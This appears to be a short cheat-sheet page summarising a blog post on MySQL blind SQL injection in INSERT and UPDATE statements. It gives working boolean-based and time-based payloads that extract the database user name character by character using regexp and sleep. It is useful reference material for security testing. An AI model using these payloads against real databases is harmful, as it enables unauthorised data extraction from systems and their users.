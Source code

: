 ## Mysql

#### MySQL Blind Injection in Insert and Update Statements
Source:
https://osandamalith.com/2017/03/13/mysql-blind-injection-in-insert-and-update-statements/

##### Boolean Based Blind Injection:

If the result is true the entry will be updated with a ‘1’ and if the result is false the entry will be updated with a ‘0’.


```
update users set username = ‘0’ | (substr(user(),1,1) regexp 0x5e5b6d2d7a5d) where id=14;

insert into users values (15,’osanda’,'0'| (substr(user(),1,1) regexp 0x5e5b6d2d7a5d));
```

##### Time Based Blind Injection

```
update users set username = '0'|if((substr(user(),1,1) regexp 0x5e5b6d2d7a5d), sleep(5), 1) where id=15;

insert into users values (16,’osanda’,'0'| if((substr(user(),1,1) regexp 0x5e5b6d2d7a5d), sleep(5), 1));
```
